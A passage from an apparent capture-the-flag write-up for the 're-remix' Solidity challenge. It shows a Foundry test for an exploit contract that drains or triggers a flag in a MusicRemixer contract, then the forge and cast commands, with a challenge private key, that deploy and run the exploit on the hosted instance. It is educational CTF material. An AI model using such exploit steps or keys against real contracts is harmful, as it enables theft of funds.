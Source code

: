 ```solidity
    }
}
```

### Foundry test :

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.19;

import "forge-std/Test.sol";
import "../src/MusicRemixer.sol";
import "../src/Exploit.sol";

contract reremixTest is Test {
    MusicRemixer public musicRemixer;
    
    event FlagCaptured();

    function setUp() public {
        musicRemixer = new MusicRemixer{value: 100 ether}();
    }

    function testExploitContract() public {
        reremixExploit exploit = new reremixExploit{value: 0.5 ether}(address(musicRemixer));
        vm.expectEmit(false, false, false, false);
        emit FlagCaptured();
        exploit.start();
    }
}
```

```
# forge test --match-path test/testContract.t.sol -vv
[⠔] Compiling...
No files changed, compilation skipped

Running 1 test for test/testContract.t.sol:reremixTest
[PASS] testExploitContract() (gas: 807283)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.26ms
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

Then we can just deploy and run it on the actual instance

```
# forge create src/Exploit.sol:reremixExploit -r http://re-remix-web.chals.sekai.team/466bc2d6-b9d9-4476-bb21-03c32eee41c4 --private-key 0x026f98e50658ddbbbd422e4af9162d09258db3d0fbeb37fe042d29c33a6f5047 --constructor-args 0xE8f4f13814dB4e0A4789Ac42ca8fbfd0627bD2B0 --value 500000000000000000
[⠒] Compiling...
No files changed, compilation skipped
Deployer: 0x43a7DDDdD656352f7d3e4F06296BC58Ee140F0dd
Deployed to: 0xdCaDE2F1aB61DE7aAB29f148c6425e883B87a613
Transaction hash: 0x8206f22c2a4cc663ae67bef96805e6d974616c793f4b69c6a4c0f1effab6ab10

# cast send 0xdCaDE2F1aB61DE7aAB29f148c6425e883B87a613 "start()" -r http://re-remix-web.chals.sekai.team/466bc2d6-b9d9-4476-bb21-03c32eee41c4 --private-key 0x026f98e50658ddbbbd422e4af9162d09258db3d0fbeb37fe042d29c33a6f5047
```
